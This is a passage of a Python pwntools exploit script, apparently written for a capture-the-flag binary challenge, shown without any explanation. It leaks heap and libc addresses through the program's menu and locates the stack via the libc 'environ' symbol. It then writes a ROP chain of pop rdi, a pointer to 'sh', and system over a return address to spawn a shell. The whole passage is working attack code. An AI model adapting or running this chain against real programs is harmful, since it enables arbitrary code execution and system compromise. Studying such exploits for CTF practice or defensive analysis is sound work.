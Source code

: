 ```Python
    p.sendline('6')
    p.recvuntil('number:')
    p.sendline('0')
    p.recvuntil('Result:')
    heap_address_low = int(p.recvline().strip('\n'))

    p.sendline('6')
    p.recvuntil('number:')
    p.sendline('1')
    p.recvuntil('Result:')
    heap_address_high = int(p.recvline().strip('\n'))
    heap_address = heap_address_low + (heap_address_high << 32)
    p.info('heap: ' + hex(heap_address))
    if DEBUG:
        heap_base = heap_address - 0x1f040
    else:
        heap_base = heap_address - 0x14040
    p.info('heap base %x' % heap_base)
    libc_at_heap = heap_base + 0x15220

    #set_to_global(0, libc_at_heap)

    libc_address = dump_addr(libc_at_heap)
    libc_base = libc_address - 0x3c3260
    
    p.info('libc base %x' % libc_base)

    environ_at_libc = libc.symbols['environ'] + libc_base
    p.info('environ at libc %x' % environ_at_libc)
    environ_addr = dump_addr(environ_at_libc)
    
    p.info('environ @ %x' % environ_addr)

    ret_addr = environ_addr - 0x2b0
    sh_addr = libc_base + list(libc.search('sh\x00'))[0]
    pop_rdi = 0x0000000000021102 + libc_base
    system_addr = libc_base + libc.symbols['system']
    
    p.info('writing ret_addr %x' % ret_addr)
    set_to_global(0, ret_addr & 0xffffffff)
    set_to_global(1, ret_addr >> 32)
    # size
    set_to_global(2, 0x10)
    set_to_global(4, 0x10)
    
    p.sendline('0')
    p.recvuntil('(y/n):')
    p.sendline('n')

    p.sendline(str(0x13337))

    p.info('written pop rdi %x @ %x' % (pop_rdi, ret_addr))
    write_num_to_offset(0, pop_rdi & 0xffffffff)
    write_num_to_offset(1, pop_rdi >> 32)

    p.info('written sh_addr %x @ %x' % (sh_addr, ret_addr + 0x8))
    write_num_to_offset(2, sh_addr & 0xffffffff)
    write_num_to_offset(3, sh_addr >> 32)

    p.info('written system_addr %x @ %x' % (system_addr, ret_addr + 0x10))
    write_num_to_offset(4, system_addr & 0xffffffff)
    write_num_to_offset(5, system_addr >> 32)

```